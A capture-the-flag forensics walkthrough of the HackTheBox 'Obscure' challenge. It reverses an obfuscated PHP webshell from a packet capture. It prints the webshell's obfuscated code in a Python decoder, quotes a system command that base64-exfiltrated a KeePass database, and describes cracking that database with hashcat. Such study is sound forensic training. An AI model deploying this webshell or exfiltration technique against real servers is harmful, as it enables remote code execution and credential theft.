 ```yaml
---
title: HackTheBox - Obscure
author: solidgoat
date: 2023-03-30 21:00:00 EDT
categories: [HackTheBox, Forensics]
tags: [forensics, challenges, hackthebox, htb, walkthrough, easy, wireshark, php, obfuscation, keepass, password cracking, webshell]
image:
  path: /assets/img/posts/Obscure/forensics-logo.png
  width: 200
  height: 200
  alt: Walkthrough of Obscure from HackTheBox
---
```


## Task

An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.

### Tools Used

* [Wireshark](https://www.wireshark.org/)
* Python
* [Burp Suite](https://portswigger.net/burp)
* [hashcat](https://hashcat.net/hashcat/)
* [KeePass](https://keepass.info/)

## Initial Assessment

So we're given a PCAP file, the PHP webshell that was used during the attack, and a description of the task (`to-do.txt`).

As indicated from the description, looking at `support.php` shows an obfuscated PHP file. We'll probably have to come back to this; let's take a look at the tcpdump.

<img src="/assets/img/posts/Obscure/support-php-webshell.png">

So we open the PCAP file with Wireshark and we immediately see a `GET` request to `/upload.php`.

<img src="/assets/img/posts/Obscure/wireshark-upload-php.png">

Looking at the TCP stream shows nothing special; we'll go to the next stream.

<img src="/assets/img/posts/Obscure/wireshark-stream0.png">

Now this one looks more insteresting; it's a `POST` request to `/uploads/support.php`. It almost looks like `base64` being sent as the input and `base64` being returned as the output.

<img src="/assets/img/posts/Obscure/wireshark-stream1.png">

But if we try to decode that, we get a bunch of garbage. So we're probably going to have to reverse the webshell to see what that input and output is.

<img src="/assets/img/posts/Obscure/base64-decode-attempt.png">

Before I started that process, I looked through the HTTP files to see if there was anything of interest that could be exported.

<img src="/assets/img/posts/Obscure/wireshark-http-export.png">

We already have the `support.php` file and the larger ones seem to be the output of one of the TCP streams.

<img src="/assets/img/posts/Obscure/wireshark-http-export-support-php.png">

## Reversing Support.php

So this looks like a mess, but it's just doing a `str_replace()` throughout the file - `Line 6` and `Line 8`.

<img src="/assets/img/posts/Obscure/support-php-webshell-callouts.png">

I don't really work with PHP, so I did this task in Python.

I commented out some lines, removed the semicolon line terminators, and just did a string replace on the necessary lines.

```python
V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($'
P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents('
d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i'
B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}'
#N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion')
c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@'
#u=str_replace('u)','',$V.$d.$P.$c.$B)
#x=$N('',$u);$x()

print('FDcreFDateFD_fFDuncFDFDtion'.replace('FD', ''))

for line in [V, d, P, c, B]:
    print(line.replace('u)', ''))
```

Here's the result.

<img src="/assets/img/posts/Obscure/support-php-decoder.png">

It stills looks a little... ugly, so I formatted it to make it easier to read.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-pretty.png">

Before I went any further I did some research on some of the functions that I was unfamiliar with. `create_function()` being one of those.

I was met with this. Apparently `create_function()` has been deprecated, but maybe we don't need it since we can "build" the function ourselves.

<img src="/assets/img/posts/Obscure/php-create-function-deprecated.png">

So going through this code, it looks like the first function loops through and does a bit flip on the input - `Line 15`. Then returns it as variable `$o`.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-bitwise.png">

Then `preg_match()` matches on a regex on `php://input`, which is essentially an input stream, and stores it in the variable `$m`.

Next, it uncompresses and decodes the obfuscated input using `@gzuncompress` and `@base64_decode`, and executes it with `@eval` - `Line 24`.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-function2.png">

Then encodes and compresses the results using `@base64_encode` and `@gzcompress` - `Line 26`.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-function3.png">

Finally, it prints the results, but with padding - `$p=0UlYyJHG87EJqEz6`, `$kh=6f8af44abea0`, `$kf=351039f4a7b5`.

`$r` is actually the result and it's in the middle of that mess.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-function4.png">

## Decoding the Attack

So I probably could have made a PHP function to decode the results from the tcpdump, but I'm still learning and thought it would be simpler to host the modified PHP file on an Apache server and feed it the encoded input.

But first we need to change `@eval` to `print()` so we're not executing code. And we also want to be able to see the input, so I printed `$o` and commented out `$r`.

<img src="/assets/img/posts/Obscure/support-php-webshell-decoded-defused.png">

I launched Burp Suite and went to `http://localhost/support_modified.php` and sent it a `POST` request using the values from the tcpdump.

And it looks like we have some positive results.

<img src="/assets/img/posts/Obscure/burp-results1.png">

I went through each input and it was basically all directory listings except for the last TCP stream. This one was calling `@system('base64 -w 0 pwdb.kdbx 2>&1')`, which looks like it was exfiltrating the `pwdb.kdbx` file using base64.

<img src="/assets/img/posts/Obscure/burp-keepass-file.png">

This one also had the largest output out of all the streams, so I assumed the output was the actual file.

<img src="/assets/img/posts/Obscure/burp-keepass-file-encoded-output.png">

I suppose I do need to reconstruct this file to move forward because I don't see the flag anywhere else in the tcpdump.

And I suppose I do need to modify the PHP file and run it manually to get the decoded output.

I simply added the output as a variable (`$z`) to the PHP file, then instead of taking `@file_get_contents("php://input")` as input, I replaced that with my variable (`$z`).

<img src="/assets/img/posts/Obscure/keepass-file-decoded.png">

And I got the decoded, `base64` output.

<img src="/assets/img/posts/Obscure/keepass-file-decoded-output.png">

I just piped that to `base64 -d` and outputted that to a file.

<img src="/assets/img/posts/Obscure/keepass-file-decoded-base64.png">

So now I have this KeePass file. I first tried looking through the entire tcpdump for what could be the password; I even decoded all the outputs from `support.php`, but I couldn't find anything that resembled a password.

I then searched online for how to break into a KeePass database and apparently `hashcat` or `John the Ripper` is able to. I have an affinity towards `hashcat`, so I used that.

First I needed to convert the file to a hash using `keepass2john`, then I fed that into `hashcat` using the `rockyou.txt` wordlist.

<img src="/assets/img/posts/Obscure/keepass2john-output.png">

And we got the flag!

<img src="/assets/img/posts/Obscure/keepass-flag.png">